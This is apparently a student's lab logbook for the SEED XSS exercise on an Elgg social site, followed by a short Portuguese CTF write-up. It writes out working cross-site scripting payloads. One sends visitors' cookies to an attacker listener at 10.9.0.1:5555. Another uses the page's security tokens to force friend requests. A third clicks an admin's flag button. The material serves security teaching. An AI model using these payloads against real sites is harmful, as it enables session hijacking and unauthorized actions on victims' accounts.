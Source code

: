 # Cross Site Scripting - XSS

## Task 1
If we loggin as Alice and go edit her profile, if we insert the text: <script>alert(’XSS’);</script>
on a field such as "Brief description" and save the changes made, that will launch a popup window with the message "XSS" everytime someone sees Alice's profile (see "logbook10 task1.png"). This also means that the input field on the "Brief description" (used in our case) does not check HTML injection.

## Task 2
This task is similar to the first one, but this time we are displaying the user's cookies on the popup window and not just some text. By doing the same thing as in the task 1, but by placing the text: <script>alert(document.cookie);</script>
we can achieve this result (see "logbook10 task2.png").

## Task 3
The previous task we printed the user's cookies on a popup window, but only the user could see that. On this task we used an "image" with a src parameter that the browser will look for by a GET request. That request will be redirected to the attacker (us) since we inserted our server on the src attribute. Since we also attached an additional text to get information about the cookies, basically the browser used by the victim (Alice in our case) is going to send a GET Request to a server (10.9.0.1, more specifically to the port 5555) that our machine is listenning to. So, by placing the text:
<script>document.write('<img src=http://10.9.0.1:5555?c='+ escape(document.cookie) + '   >');</script>
in an input field like the "Brief description" (as in the previous tasks) we can get Alice's cookies displayed in our machine (see "logbook10 task3.png").

## Task 4
In this task we want to make everyone that sees Samy's profile his friend. To achieve this we needed to insert the text:
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();}</script>
on the "About me" field on Samy's profile. On the text above what we needed to change was the 'sendurl' variable. The value of that variable basically is the url that we get when adding a friend (using the HTTP Header Live extension in our browser, see "logbook10 task4.png"). This url comes with some defined tokens that we must replace by the ones gotten by our script, so that the url has the correct updated tokens, that's why we keep the initial part of the url and then add the 'ts' and 'token' variables. Additional note: we can see that Samy's id is 59. If we wanted to do this for other users we just need to change the number on the url after "friend=" (for example, Alice is 56 and Charlie is 58).

# CTF 10

## Desafio #1

O formulário é vulneravél a XSS. Podemos injetar código que clica no botão de
give flag pelo utilizador:

`<script>document.getElementById("giveflag").click();</script>`

Quando o admin for ver a página, clicará no botão de give flag.



